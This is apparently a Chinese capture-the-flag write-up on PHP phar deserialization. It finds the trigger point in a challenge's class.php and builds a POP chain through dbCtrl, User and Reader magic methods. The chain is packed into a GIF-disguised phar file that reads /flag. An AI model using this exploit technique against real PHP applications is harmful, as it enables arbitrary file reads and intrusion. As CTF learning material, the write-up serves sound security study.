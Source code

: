 
 

众所周知，要触发phar反序列化，必须有文件操作函数，常见的大概是以下这些：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210116013601.png)

在class.php里面，能触发的地方有两处：

1. 第117行file_exists
2. 第153和156行的file_get_contents

 

我们起先看到的是第117行的file_exists，我们在这里尝试了一番之后发现这里并不能触发phar反序列化。

原因是`file_exists("upload/" . $_FILES["file"]["name"])`进行了拼接，phar://是传不进去的，那么剩下的唯一能触发的地方只有第153和156行的`file_get_contents`了。

而实际上能触发的只有153行的`file_get_contents`，156行的是给你读flag的。

 

#### 构造pop链

全局搜索魔术方法；

155行Reader::__set

```
public function __set($name,$val){
    echo file_get_contents($val);
}
```

31行User::__toString

```
public function __toString()
{
    $this->nickname->backup=$this->backup;
    $user = new User();
    $user->id = $_SESSION['id'];
    $user->nickname = $_SESSION['token'];
    return serialize($user);
}
 
```

81行dbCtrl::__destruct

```
public function __destruct(){
    echo $this->token;
}
```

pop链很明确：

```
//pop链
$pop = new dbCtrl();
$pop->token = new User();
$pop->token->nickname = new Reader();
$pop->token->backup = '/flag';
 
//构造phar文件
@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($pop);
$phar->addFromString("test.jpg", "test");
$phar->stopBuffering();
```